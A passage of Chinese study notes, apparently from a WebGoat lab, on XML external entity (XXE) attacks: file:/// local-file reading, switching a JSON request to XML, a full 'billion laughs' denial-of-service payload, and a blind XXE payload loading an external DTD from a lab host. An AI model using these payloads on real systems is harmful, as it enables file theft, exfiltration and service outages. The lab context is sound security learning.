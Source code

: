 成功  

- 外部实体指向路径为"file:///",file://是一种url协议，他明确的指示了要访问本地资源，这里可以直接使用根目录"/",在某些情况下二者会有区别，比如windows环境可能不识别'/'，但是可以识别file:///。  

## 7题  

同样的情景。抓包，发现是以json格式发送，把content-type修改为xml格式，然后把请求头修改，发送就可以了，请求内容一模一样  
![alt text](image-3.png)  


## XXE DOS attack  

- DoS(Denial of Service)攻击（拒绝服务攻击）,是一种通过耗尽目标系统资源（如带宽、计算能力、内存等）使其无法正常提供服务的网络攻击行为。攻击者通过发送大量恶意请求或利用协议漏洞，导致合法用户无法访问目标服务器、网站或网络设备。  

- XXE DOS,通常是在定义实体时使用嵌套的方式定义，使得在解析实体时需要消耗大量资源，下面是一个例子  
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>  
```  
实体lol1包含多个lol，lol2又包含多个lol1，呈指数增长，解析实体lol9需要占用大量资源  

### Blind XXE  




```xml
<?xml version="1.0"?>
  <!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://192.168.88.1:9090/files/webgoat/attack.dtd">
  %remote;
]>
<comment><text>&web;</text></coment>
```
